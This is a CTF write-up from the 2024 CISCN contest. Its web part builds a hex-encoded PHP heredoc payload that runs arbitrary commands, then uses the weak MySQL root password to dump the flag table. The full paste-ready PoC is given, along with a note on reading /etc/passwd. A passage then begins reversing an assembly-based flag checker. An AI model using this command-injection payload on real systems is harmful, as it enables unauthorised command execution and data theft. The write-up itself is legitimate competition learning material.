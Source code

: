 # <center>2024CISCN WriteUp By NKV</center>

## Web

### Simple_php

```Python
a='find / -type f -mtime -100 -mtime +0'
a='exec 2>&1;mysql -u root -proot -e "use PHP_CMS;show tables;select * from F1ag_Se3Re7; "'
print('cmd=php -r $a=<<<EOF%0a',end='')
data='php -r $a=<<<EOF%0a'
for i in a:
    print('\\x'+hex(ord(i))[2:],end='')
    data+='\\x'+hex(ord(i))[2:]

print('%0aEOF;var_dump($a);system($a);')
data+='%0aEOF;var_dump($a);system($a);'
```

复制直接在hackbar可以rce，在a处修改可以执行任意命令，rce后找不到flag，`cat /etc/passwd`可以看到mysql用户，mysql服务打一个root弱口令成功查到flag（exec 2>&1用来看mysql报错信息）

poc:`cmd=php -r $a=<<<EOF%0a\x65\x78\x65\x63\x20\x32\x3e\x26\x31\x3b\x6d\x79\x73\x71\x6c\x20\x2d\x75\x20\x72\x6f\x6f\x74\x20\x2d\x70\x72\x6f\x6f\x74\x20\x2d\x65\x20\x22\x75\x73\x65\x20\x50\x48\x50\x5f\x43\x4d\x53\x3b\x73\x68\x6f\x77\x20\x74\x61\x62\x6c\x65\x73\x3b\x73\x65\x6c\x65\x63\x74\x20\x2a\x20\x66\x72\x6f\x6d\x20\x46\x31\x61\x67\x5f\x53\x65\x33\x52\x65\x37\x3b\x20\x22%0aEOF;var_dump($a);system($a);`

![img](https://nankai.feishu.cn/space/api/box/stream/download/asynccode/?code=MTVlYjZkYjRlMjRkOTUwNjJkNWM4YWY3NGRkMjkwNzdfRmF0UEN6MEU2TVQyVWx1bDFJSE5sWUs0aXBDeHVTTjlfVG9rZW46UU16V2JhdXBab2UxeFN4ZWs5TGNQZkg3bndkXzE3MTYxMjE0MzY6MTcxNjEyNTAzNl9WNA)

## Re

### asm_re

vscode打开文件，发现是ida生成的汇编代码。先定位到数据区，发现可疑字符串：

![img](https://nankai.feishu.cn/space/api/box/stream/download/asynccode/?code=Y2VlMjRiOWViYWYwZmZhNjVhYjYyYWNhOTUxM2E3OThfZnpQSFlFWmJLZnIzT1FlSUluV2VWa2RGRkZJdWtXczBfVG9rZW46SEF5QWIxVXhlb2l1aXl4eU8yTmNBdmtxbnBkXzE3MTYxMjE0MzY6MTcxNjEyNTAzNl9WNA)

并且flag的格式是：flag{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}

大致浏览main函数，理解了代码的逻辑：

输入flag，经过加密转换后与unk_100003F10比较，如果相同就输出"The result array matches the expected array."，不同就输出"The result array does not match the expected array."。

定位unk_100003F10，提取出来

```Plain
D7, 1F, B7, 21, 47, 1E, 27, 20, E7, 26, D7, 10, 27, 11, 07, 20, C7, 11, 47, 1E, 17, 10, 17, 10, F7, 11, 07, 20, 37, 10, 07, 11, 17, 1F, D7, 10, 17, 10, 17, 10, 67, 1F, 17, 10, C7, 11, C7, 11, 17, 10, D7, 1F, 17, 1F, 07, 11, 47, 0F, 27, 11, 37, 10, 47, 1E, 37, 10, D7, 1F, 07, 11, D7, 1F, 07, 11, 87, 27
```
